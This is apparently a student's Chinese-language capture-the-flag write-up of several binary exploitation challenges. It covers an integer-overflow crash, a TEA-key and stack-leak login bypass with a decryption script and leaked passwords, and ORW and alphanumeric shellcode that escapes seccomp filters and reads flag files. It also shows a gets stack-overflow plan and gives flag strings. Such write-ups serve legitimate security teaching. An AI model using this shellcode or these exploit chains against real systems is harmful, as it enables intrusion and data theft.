# Task 1
## no crash
### 1. 漏洞分析
#### 程序逻辑
程序读取两个整数 `a`（十进制数）和 `b`（目标进制），然后调用自定义 `pow` 函数将 `a` 转换为 `b` 进制输出。

#### 漏洞点：`pow()` 函数整数溢出

```c
int pow(int a, int b)
{
    int c = a;          // c = a（32位有符号int）
    if (b == 0)
        return 1;
    for (; b > 1; b--)
    {
        c = a * c;      // ← 乘法可能溢出！
    }
    return c;
}
```

- `int` 为 32 位有符号，范围 `[-2³¹, 2³¹-1]`
- 乘法 `a * c` 若超过该范围则发生整数溢出（wrap around）
- 当结果为 2³² 的整数倍时，低 32 位被截断为 **0**
---
#### 触发崩溃条件

选择 **b = 65536（2¹⁶）**，则：

| 调用 | 计算过程 | 返回值 |
|------|---------|-------|
| `pow(65536, 0)` | 直接返回 1 | **1** |
| `pow(65536, 1)` | c=65536，循环不执行 | **65536** |
| `pow(65536, 2)` | 65536 × 65536 = 2³² → 32位截断 → **0** | **0** |
| `pow(65536, i≥2)` | 0 × ... = **0** | **0** |

**崩溃路径**：
1. **第一个循环**：当 `a > 65536` 时，`a ≤ pow(65536, i)` 永不为真（因 i≥2 时 pow 返回 0），循环跑满 100 次 → `i = 100`
2. **第二个循环**：执行 `a / pow(65536, 99)` → `a / 0` → **除零异常（SIGFPE）→ 进程崩溃**
---
### 2. 攻击方法

只需向程序输入：
- `a` = 任意大于 65536 的正整数（如 `100000`）
- `b` = **65536**

程序崩溃后，容器平台检测到异常退出状态码，自动返回 flag。

---

### 3. 运行结果


---
## login_me
### 1.漏洞分析

#### 漏洞 1：TEA 加密密钥硬编码（CWE-547）

`get_user_password()` 函数硬编码了 TEA 加密的密文和密钥：

```c
#define VERIFY "\x27\x85\x56\x4a\xb2\x29\xe7\xf1\xa6\xc0\xab\xd7\xd6\x82\xb8\x1b\
               \x4c\x43\xb0\x33\x0d\xb2\xbe\xb8\x10\x7a\x73\x30\x0a\xf3\xff\x59"
#define KEY    "\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa"
```

TEA 解密参数：
- 32 轮迭代，delta = `0x9e3779b9`，sum 初始值 = `0xC6EF3720`
- 小端序 32 位整数运算

可直接用 Python 实现 TEA 解密得到明文。

#### 漏洞 2：`get_password()` 返回值未检查（CWE-252）

```c
int get_password(char *name, char *buf)
{
    unsigned int length;
    scanf("%d", &length);
    if (length > BUFFER_SIZE) {
        return -1;    // ← 返回错误
    } else {
        return read(STDIN_FILENO, buf, BUFFER_SIZE);
    }
}

// 在 main() 中：
get_password(username, password);   // ← 返回值完全被忽略！
```

如果输入长度 > 32，`read()` 不被调用，`password` 保持全零。

#### 漏洞 3：（核心）栈内存信息泄露 → admin 密码泄露（CWE-200）

密码验证失败时进入 `wrong_password`：

```c
wrong_password:
    printf("you input password as %s (len %d)\n", password, strlen(password));
```

`%s` 从 `password` 地址持续读取直到遇到 `\0` 字节。由于：
1. `password` 与 `password_verify` 在栈上连续相邻
2. 若 password 填满 32 字节且不含 null 字节，`%s` 越过边界读入 `password_verify`
3. `password_verify` 中存放的是 `password.txt` 的 admin 密码明文

**攻击效果：** 输入 32 个 `'A'` 作为密码尝试登录 admin，错误日志直接泄露 admin 密码。

#### 漏洞 4：`scanf` 与 `read` 混用 + 非缓冲 I/O

```c
setvbuf(stdin, 0LL, 2, 0LL);  // _IONBF
```

`scanf` 通过 `getc()` 逐字符读取，遇到非数字时 `ungetc()` 推回 FILE 内部 pushback 缓冲区。后续 `read(STDIN_FILENO, buf, 32)` 直接读内核缓冲区，绕过 pushback，造成输入不同步。

---
### 2.攻击步骤

#### Step 1：TEA 解密获取 user 密码

```python
VERIFY = bytes([0x27,0x85,0x56,0x4a,0xb2,0x29,0xe7,0xf1,
                0xa6,0xc0,0xab,0xd7,0xd6,0x82,0xb8,0x1b,
                0x4c,0x43,0xb0,0x33,0x0d,0xb2,0xbe,0xb8,
                0x10,0x7a,0x73,0x30,0x0a,0xf3,0xff,0x59])
KEY = b'\xaa' * 16

def tea_decrypt_block(v0, v1, k):
    delta, s = 0x9e3779b9, 0xC6EF3720
    k0,k1,k2,k3 = struct.unpack('<4I', k)
    for _ in range(32):
        v1 = (v1 - (((v0<<4)+k2) ^ (v0+s) ^ ((v0>>5)+k3))) & 0xFFFFFFFF
        v0 = (v0 - (((v1<<4)+k0) ^ (v1+s) ^ ((v1>>5)+k1))) & 0xFFFFFFFF
        s = (s - delta) & 0xFFFFFFFF
    return v0, v1
```

**解密结果：** `I_am_very_very_strong_password!!`（32 字节）

#### Step 2：以 user 登录，获取 FLAG1

```
连接: wss://ctf.zjusec.net/api/proxy/019f59c1-cde8-7f41-a7c3-98aae7a4f406

→ 用户名:   user
→ 密码长度:  32
→ 密码:     I_am_very_very_strong_password!!
← FLAG1:   AAA{Oh_D1rTy_sta
```

#### Step 3：栈泄露攻击 → 获取 admin 密码

```
连接: wss://ctf.zjusec.net/api/proxy/019f59c1-cde8-7f41-a7c3-98aae7a4f406

→ 用户名:   admin
→ 密码长度:  32
→ 密码:     AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
← 错误日志:
  password = AAAA...AAAAILovePlayCTFbtwAlsoDota2!
                    ^^^^^^^^^^^^^^^^^^^^^^^^^^ 泄露！
```

**泄露的 admin 密码：** `ILovePlayCTFbtwAlsoDota2!`

#### Step 4：以 admin 登录，获得 Shell

```
连接: wss://ctf.zjusec.net/api/proxy/019f59c1-cde8-7f41-a7c3-98aae7a4f406

→ 用户名:   admin
→ 密码长度:  32
→ 密码:     ILovePlayCTFbtwAlsoDota2!
← password correct! launch your shell

$ ls -la
-rwxr----- 1 0 1001    15 Jul 6  2024 flag2
-rwxr----- 1 0 1001    26 Jul 6  2024 password.txt

$ cat flag2
CK_Ne3d_C1a4n}

$ cat password.txt
ILovePlayCTFbtwAlsoDota2!
```

---

### 3.Flag


---

## inject_me
### 1. 漏洞分析

源码关键片段（`inject_me.c`）：

```c
void *page = mmap((void*)0x14000, sysconf(_SC_PAGESIZE),
                  PROT_READ | PROT_WRITE | PROT_EXEC,
                  MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);

void (*funcptr)(void) = (void(*)(void))0x14000;

for (int i = 0; i < 5; i++) {
    read(0, (void*)0x14000, 0x100);   // 把用户输入写入可执行区
    int ret = funcptr();               // 直接把这段字节当函数执行！
    // ... 校验 ret 是否等于 ADD/SUB/AND/OR/XOR 的预期值
}
```

用 capstone 对二进制反汇编交叉验证，确认参数无误：

- `0x1363: mov edi, 0x14000` → `mmap` 目标地址固定为 `0x14000`
- `0x1350: mov r8d, 0xffffffff` → `fd = -1`（即 `MAP_ANONYMOUS`）
- 源码 `mmap` 权限含 `PROT_EXEC`，即该地址段**可写且可执行**
- 5 处 `mov edx, 0x100` → 5 次 `read(0, 0x14000, 0x100)`（各 256 字节），随后把 `0x14000` 当函数调用

**漏洞本质**：用户输入的字节被直接映射进一块 RWX 内存并被当作代码执行，且该函数指针完全由攻击者控制。W⊕X（写执行不可同时）保护被彻底破坏，这就是一个教科书式的 **shellcode 注入 / 任意代码执行** 漏洞。

保护机制方面：二进制开启了 PIE + 动态链接，但因为 shellcode 由我们自己提供、且不需要调用 libc，所以 PIE 与地址随机化对本题利用**无影响**。

---

### 2. 利用做法（攻击路径）

分两段连接，各取一个 flag，最后拼接：

#### 连接 A —— 拿 FLAG1（老实回答 5 题）

按程序要求，5 次 `read` 分别送入能正确实现 ADD / SUB / AND / OR / XOR 的迷你 shellcode（每个 ≤ 256 字节，无空字节限制但保持短小）。程序校验通过后自行 `printf(FLAG1)`。

| 运算 | shellcode 字节 | 反汇编 |
|------|----------------|--------|
| ADD | `8d0437c3` | `lea eax,[rdi+rsi]; ret` |
| SUB | `89f829f0c3` | `mov eax,edi; sub eax,esi; ret` |
| AND | `89f821f0c3` | `mov eax,edi; and eax,esi; ret` |
| OR  | `89f809f0c3` | `mov eax,edi; or  eax,esi; ret` |
| XOR | `89f831f0c3` | `mov eax,edi; xor eax,esi; ret` |

> 注：程序输出时容器把 `FLAG1` 原样只吐出前 16 字节 `AAA{SheL1c0de_T0`，这是题目设计的“第一部分”，并非截断 bug。

#### 连接 B —— 拿 FLAG2（直接读文件 shellcode）

第一次 `read` 就送入一段 **77 字节的 ORW（open/read/write）shellcode**，直接 `open("/flag2")` → `read` → `write(1)` → `exit`，把 `/flag2` 文件内容打印到 stdout，完全绕开交互 shell。

```
48 b8 2f 66 6c 61 67 32  00 00      movabs rax, "/flag2\0"
50                              push rax
48 89 e7                         mov rdi, rsp          ; filename = "/flag2"
31 f6 31 d2                      xor esi,esi; xor edx,edx
b8 02 00 00 00 0f 05             mov eax,2; syscall    ; open(O_RDONLY)
48 89 c7                         mov rdi, rax          ; fd
48 8d b4 24 00 fe ff ff          lea rsi,[rsp-0x200]   ; stack buffer
ba 00 02 00 00 31 c0 0f 05       mov edx,0x200; xor eax,eax; syscall  ; read
48 89 c2                         mov rdx, rax          ; count = read bytes
48 8d b4 24 00 fe ff ff          lea rsi,[rsp-0x200]
bf 01 00 00 00 b8 01 00 00 00 0f 05   mov edi,1; mov eax,1; syscall  ; write(stdout)
31 ff b8 3c 00 00 00 0f 05       xor edi,edi; mov eax,60; syscall    ; exit
```

#### 传输层：WebSocket 隧道

远程是 WebSocket（`wss://...`）。因此用 `websocket-client` 建立连接后，`send_binary(shellcode)` 即等价于向程序 stdin 写入字节，`recv_frame()` 即读取 stdout。

同时规避了 `websocket-client` 在「数据帧 + 关闭帧同时到达」时会吞掉尾部数据的坑：连接 A 改用底层 `ws.sock.recv()` 累积原始字节；连接 B 用 `recv_frame()` 累积到关闭帧为止。

### 3.获得flag


---

## bypass_me
### 1. 逆向分析

二进制经过 strip，但通过反汇编可完整还原程序逻辑。入口点 `0x4010d0` 调用 `__libc_start_main`，主函数位于 `0x401309`。

### 1.1 主函数流程 (0x401309)

**步骤 1：调用 sandbox 初始化函数 (0x401203)**

设置 seccomp 沙箱规则（详见第 3 节）。

**步骤 2：调用 init 函数 (0x4011b6)**

```c
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
alarm(60);
```

关闭缓冲，设置 60 秒超时。

**步骤 3：获取页大小**

```c
size = sysconf(_SC_PAGESIZE);  // 通常为 0x1000 (4096)
```

**步骤 4：mmap 分配 RWX 内存**

```c
mmap(
    addr   = NULL,                               // 让内核选择地址
    length = size,                                // 0x1000 = 4096
    prot   = PROT_READ | PROT_WRITE | PROT_EXEC,  // 7 = RWX
    flags  = MAP_PRIVATE | MAP_ANONYMOUS,         // 0x22
    fd     = -1,
    offset = 0
)
```

> **关键点：** 分配了一块可读、可写、可执行的内存页。

**步骤 5：输出提示并读取 shellcode**

```c
puts("Give me your shellcode:");
read(0, mmap_addr, size);   // 从 stdin 读取最多 0x1000 字节
```

**步骤 6：执行 shellcode**

```c
call mmap_addr   // 直接跳转到 mmap 内存执行用户输入
```

用户输入的数据被当作代码执行。

**步骤 7：清理**

```c
munmap(mmap_addr, size);  // 释放内存后返回
```

---

### 2. Seccomp BPF 规则解析

沙箱初始化函数位于 `0x401203`，在栈上构造 BPF 过滤规则后通过两次 `prctl` 调用生效：

```c
// 第一步：设置 PR_SET_NO_NEW_PRIVS
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);

// 第二步：安装 seccomp 过滤器
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
```

#### BPF 规则（5 条指令）

通过反汇编栈上的 BPF 指令构造，解码后如下：

| # | BPF Code | 语义 | 动作 |
|---|----------|------|------|
| 0 | `JEQ(0x3b, jt=0, jf=1)` | syscall == 59 (execve)? | 是→下一条；否→跳过1条 |
| 1 | `RET(0x00050001)` | 返回 SECCOMP_RET_ERRNO(1) | 🔴 **BLOCK execve** |
| 2 | `JEQ(0x142, jt=0, jf=1)` | syscall == 322 (execveat)? | 是→下一条；否→跳过1条 |
| 3 | `RET(0x00050001)` | 返回 SECCOMP_RET_ERRNO(1) | 🔴 **BLOCK execveat** |
| 4 | `RET(0x7fff0000)` | 返回 SECCOMP_RET_ALLOW | 🟢 **ALLOW 其他全部** |

> **关键发现：** Seccomp **仅拦截了 `execve` (59) 和 `execveat` (322)** 两个系统调用，其余所有 syscall（包括 `open`, `read`, `write`, `getdents64`, `mprotect` 等）全部允许。

---

### 3. 漏洞利用思路

#### 3.1 漏洞链

| 环节 | 条件 | 利用 |
|------|------|------|
| RWX 内存 | mmap 分配 PROT_READ\|PROT_WRITE\|PROT_EXEC | 可直接写入并执行任意代码 |
| 无输入长度校验 | read 读取 0x1000 字节，无过滤 | 可发送完整 shellcode |
| 直接 call | call mmap_addr 跳转执行 | shellcode 立即获得控制流 |
| Seccomp 规则宽松 | 仅拦截 execve/execveat | ORW (open/read/write) 完全可用 |

#### 3.2 攻击策略：ORW Shellcode

传统的 `execve("/bin/sh")` 被 seccomp 拦截，无法直接获取 shell。但由于 `open` / `read` / `write` 系统调用未被过滤，可以构造 **ORW shellcode**：

```
① open("/flag", O_RDONLY)     → 返回文件描述符 fd
② read(fd, buffer, 0x200)     → 读取 flag 内容到内存
③ write(1, buffer, 0x200)     → 将 flag 输出到 stdout
```

---

### 4.获取flag


---
# Task 2：alpha
## 1.程序逻辑

```
main():
  1. setvbuf(stdin, 0, 2, 0)     // 关闭缓冲
  2. setvbuf(stdout, 0, 2, 0)
  3. alarm(60)                     // 60秒超时
  4. shellcode = mmap(0, 0x1000, RWX, MAP_PRIVATE|ANON, -1, 0)
  5. memset(shellcode, 0x90, 0x1000)  // NOP填充
  6. puts("Visible shellcode only:")
  7. n = read(0, shellcode, 0x1000)
  8. 过滤输入: 每个字节必须落在 0x21-0x7e
       - 若"最后一个字节"是 0x0a(换行),程序会把它替换为 0x90(NOP)并从计数里剔除
       - 中间出现 0x0a 会直接判 bad
       - 结论: payload 不要带任何换行(尤其不能有尾随换行,否则解码器末字节被毁)
  9. 设置 seccomp 沙箱
  10. mov rax, rbx; call rax   // 跳进 shellcode, 此时 RAX = shellcode 基址
```
>结论：只有` execve、execveat、open、read、write` 这 5 个` syscall `被禁，其他全部允许。所以我们使用**等价的命令**来绕过过滤。
---
## 2.shellcode设计

```asm
; openat(AT_FDCWD, "flag", O_RDONLY)
push 257          ; SYS_openat
pop rax
mov rdi, -100     ; AT_FDCWD
lea rsi, [rip+flag]
xor rdx, rdx      ; O_RDONLY
syscall

; sendfile(1, fd, NULL, 0x100)  
mov rdi, 1        ; stdout
mov rsi, rax      ; fd
xor rdx, rdx      ; offset=NULL
mov r10, 0x100    ; count
push 40           ; SYS_sendfile
pop rax
syscall

; exit(0)
push 60
pop rax
xor rdi, rdi
syscall

flag: .ascii "flag"; .byte 0
```
---
## 3.对shellcode的分析
### 第一阶段：打开文件 (`openat`)
```asm
push 257          ; SYS_openat
pop rax
mov rdi, -100     ; AT_FDCWD
lea rsi, [rip+flag]
xor rdx, rdx      ; O_RDONLY
syscall
```
- **系统调用号**：`rax = 257`（Linux x86_64 中 `__NR_openat` 的值）。
- **参数 1 (`rdi`)**：`-100`，即宏定义 `AT_FDCWD`，表示文件路径相对于当前工作目录（而不是相对于某个已打开的文件描述符）。
- **参数 2 (`rsi`)**：通过 **RIP 相对寻址** (`lea rsi, [rip+flag]`) 获取字符串 `"flag"` 的内存地址。这种寻址方式使得 Shellcode 可以在不依赖绝对地址的情况下运行（位置无关）。
- **参数 3 (`rdx`)**：`0`，即 `O_RDONLY`（只读打开）。
- **结果**：调用成功后，`rax` 中返回打开的文件描述符（fd）；若失败（如文件不存在），则返回负数错误码。

---

### 第二阶段：零拷贝输出 (`sendfile`)
```asm
mov rdi, 1        ; stdout
mov rsi, rax      ; fd (上一步的返回值)
xor rdx, rdx      ; offset = NULL (从文件头开始读)
mov r10, 0x100    ; count = 256 字节
push 40           ; SYS_sendfile
pop rax
syscall
```
- **系统调用号**：`rax = 40`（`__NR_sendfile`）。
- **参数传递注意事项**：x86-64 系统调用中，第 4 个参数使用 `r10` 寄存器（而非 `rcx`），这里正确使用了 `r10`。
- **参数 1 (`rdi`)**：`1`（标准输出 `stdout`）。
- **参数 2 (`rsi`)**：上一步 `openat` 返回的文件描述符。
- **参数 3 (`rdx`)**：`NULL`，表示不从文件偏移量指针处读取，而是从文件当前偏移量（即开头）开始。
- **参数 4 (`r10`)**：`0x100`（256 字节），规定最多传输 256 字节。**注意**：这里假设 `flag` 内容小于等于 256 字节，否则只能读到前 256 字节。
- **结果**：将文件内容直接通过内核拷贝到 socket/文件描述符 1，无需经过用户态缓冲区，非常高效。

---

### 第三阶段：退出 (`exit`)
```asm
push 60
pop rax
xor rdi, rdi
syscall
```
- **系统调用号**：`rax = 60`（`__NR_exit`）。
- **参数**：`rdi = 0`，表示正常退出（无错误）。**这一步极其重要**，如果缺少退出逻辑，CPU 会继续执行 `flag:` 字符串区域，将其当作指令解码，导致程序崩溃（段错误）。

---

### 数据区
```asm
flag: .ascii "flag"; .byte 0
```
- 在代码末尾定义了一个以空字节 (`\x00`) 结尾的字符串 `"flag"`，作为 `openat` 的路径参数。

---

## 4.生成用于攻击的payload（使用alpha3）
- 1.生成原始的shellcode并将其转化为可打印的payload
- 
- 2.使用payload攻击网址得到flag
- 
- AAA{A1Ph4bEt1c41_SheL1CODe_can'7_TRaP_m361dcdd4f8cf5}
---

# Task 3:sbofsc
---
## 1.反汇编main的结果分析

### 1. 函数原型与调用约定
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
```
- `__fastcall` 表示使用快速调用约定（前两个参数通过寄存器传递），但在实际代码中并未使用 `a1`、`a2`、`a3`，它们只是标准 `main` 的参数（argc, argv, envp）。
- 返回类型 `__int64`，通常返回 0。

### 2. 局部变量布局
```c
_BYTE v4[36];   // 栈上 36 字节的缓冲区，用于 gets 输入
int v5;          // 存储环境变量 MRND 解析出的整数
void *addr;      // mmap 分配的目标地址
char *v7;        // 环境变量 MRND 的字符串指针
int v8;          // 页大小（sysconf 返回值）
```
- 栈上还有返回地址、保存的 rbp 等，缓冲区 `v4` 大小为 36 字节，但 `gets` 不限制长度，造成栈溢出。

---

### 3. 初始化与页大小获取
```c
sub_4011A6(a1, a2, a3);
v8 = sysconf(30);
```
- `sub_4011A6` 可能是某种初始化函数（如关闭缓冲等），这里不重要。
- `sysconf(30)`：参数 `30` 对应宏 `_SC_PAGESIZE`（通常为 30），返回系统页大小，一般为 4096 字节，赋值给 `v8`。

---

### 4. 读取环境变量并计算映射地址
```c
v7 = getenv("MRND");
__isoc99_sscanf(v7, "%d", &v5);
addr = (void *)((v5 % 8 + 32) << 12);
```
- 获取环境变量 `MRND` 的字符串值，用 `sscanf` 解析为十进制整数存入 `v5`。
- `v5 % 8` 得到 0~7 的余数，加上 32 得到 32~39，再左移 12 位（即乘以 4096）。
- 因此 `addr` 的值落在 **[0x20000, 0x27000]** 区间内的某个页对齐地址（步长为一页）。

---

### 5. 使用 mmap 分配可执行内存页
```c
mmap(addr, v8, 7, 50, -1, 0);
```
- 参数说明：
  - `addr`：指定映射的起始地址（希望固定在该地址）。
  - `v8`：映射长度（一页）。
  - `7`：权限标志 —— `PROT_READ | PROT_WRITE | PROT_EXEC`（可读可写可执行）。
  - `50`：标志值，十进制 50 即十六进制 `0x32`，通常分解为 `MAP_FIXED`（0x10）| `MAP_PRIVATE`（0x02）| `MAP_ANONYMOUS`（0x20），表示使用固定地址、私有匿名映射（不关联文件）。
  - `-1`：文件描述符（匿名映射时忽略）。
  - `0`：偏移量。
- 成功则在该固定地址分配一页可执行内存，失败则返回 `MAP_FAILED`（但未检查）。

---

### 6. 输入名字并写入 mmap 区域
```c
puts("what's your name: ");
read(0, addr, 0x40u);
```
- 提示用户输入“名字”。
- `read(0, addr, 0x40)` 从标准输入读取最多 64 字节，存入刚映射的可执行页起始位置。
- 因为该页可执行，我们可以在这里写入 shellcode。

---

### 7. 存在栈溢出漏洞的 gets 调用
```c
puts("try to overflow me~");
gets(v4);
```
- `gets(v4)` 从标准输入读取字符串到栈上的 36 字节缓冲区 `v4`，但 **不检查长度**，可以超出 36 字节覆盖栈上保存的 RBP 和返回地址等关键数据。
- 这是典型的栈溢出漏洞，攻击者可利用它劫持控制流。

---

### 8. 返回 0 与程序结束
- 函数最后返回 0，但在此之前若发生栈溢出，返回地址已被篡改，程序会跳转到攻击者指定的地址。

---

## 2. 漏洞利用思路
1. **控制 mmap 地址**：通过设置环境变量 `MRND` 为一个适当整数，使 `addr` 落在已知固定地址（如 0x20000），便于后续跳转。
2. **写入 shellcode**：通过 `read` 将 shellcode 写入该可执行页。
3. **触发栈溢出**：利用 `gets` 溢出 `v4`，覆盖返回地址为 `addr`（即 shellcode 起始地址），程序返回时跳转执行 shellcode，从而获得控制权。
---
## 3.shellcode注入后的gdb过程（注：这是本地的testflag，没有链接远程）

- 1.`0x401289`

- 2.`0x4012a9`写入的反汇编

- 3.`0x4012c4`

- 4.`0x402000`
